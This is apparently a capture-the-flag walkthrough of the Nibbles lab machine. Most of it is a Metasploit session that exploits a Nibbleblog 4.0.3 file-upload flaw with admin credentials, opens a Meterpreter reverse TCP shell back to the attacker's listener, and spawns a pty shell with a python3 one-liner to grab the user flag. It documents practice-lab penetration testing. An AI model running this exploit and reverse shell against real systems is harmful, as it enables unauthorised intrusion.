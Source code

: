 ```
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.235    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3

msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
PASSWORD => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST 10.10.16.5
LHOST => 10.10.16.5
msf6 exploit(multi/http/nibbleblog_file_upload) > show options

msf6 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.16.5:4444 
[*] Sending stage (39927 bytes) to 10.10.10.75
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.16.5:4444 -> 10.10.10.75:35456) at 2024-08-22 17:12:01 -0400

meterpreter > getuid
Server username: nibbler
meterpreter > sysinfo
Computer    : Nibbles
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
```
- we can see that we are nibbler user and not root
- first off, let's create a shell (just write shell in meterpreter)
- from here we could escalate privileges
- we can see that the system has python3 
```
which python3
/usr/bin/python3
```
- next we spawn an interactive shell....
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- we got the user.txt flag....